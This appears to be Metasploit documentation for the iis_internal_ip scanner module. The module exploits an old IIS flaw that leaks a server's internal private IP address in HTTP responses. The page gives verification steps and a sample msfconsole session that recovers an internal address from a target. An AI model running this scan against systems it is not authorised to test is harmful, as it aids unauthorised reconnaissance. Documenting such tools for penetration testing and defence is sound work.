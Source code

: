 ## Vulnerable Application

IIS, under various conditions, may respond to a request for `/`, `/images`, or `/default.htm` with `HTTP/1.0`
with a 300 HTTP response and a location header that contains an internal (192.x.x.x, 10.x.x.x, or 172.x.x.x)
IP address. It may also respond to a 'PROPFIND' request with a blank host header that contains the internal
IP address in then body

## Verification Steps

  1. Install a vulnerable version of IIS with at least one IP address on a private LAN
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/iis_internal_ip```
  4. Do: ```set RHOSTS [ip]```
  5. Do: ```run```
  6. You should find the internal IP

## Options

## Scenarios

### IIS with SSL

```
msf5 > use auxiliary/scanner/http/iis_internal_ip
msf5 auxiliary(scanner/http/iis_internal_ip) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf5 auxiliary(scanner/http/iis_internal_ip) > set rport 443
rport => 443
msf5 auxiliary(scanner/http/iis_internal_ip) > set rhosts 2.2.2.2
rhosts => 2.2.2.2
msf5 auxiliary(scanner/http/iis_internal_ip) > set verbose true
verbose => true
rmsf5 auxiliary(scanner/http/iis_internal_ip) > run

[*] 2.2.2.2:443     - Requesting GET / HTTP/1.0
[+] Location Header: https://10.1.1.20/home
[+] Result for 2.2.2.2 found Internal IP:  10.1.1.20
[*] 2.2.2.2:443     - Requesting GET /images HTTP/1.0
[*] 2.2.2.2:443     - Requesting GET /default.htm HTTP/1.0
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
## References
- https://nvd.nist.gov/vuln/detail/CVE-2002-0422
- http://www.securityfocus.com/bid/1499
- https://www.exploit-db.com/exploits/20096
- https://support.microsoft.com/en-us/help/218180/internet-information-server-returns-ip-address-in-http-header-content
- https://support.microsoft.com/en-us/help/967342/fix-the-internal-ip-address-of-an-iis-7-0-server-is-revealed-if-an-htt
- https://techcommunity.microsoft.com/t5/iis-support-blog/iis-web-servers-running-in-windows-azure-may-reveal-their/ba-p/826500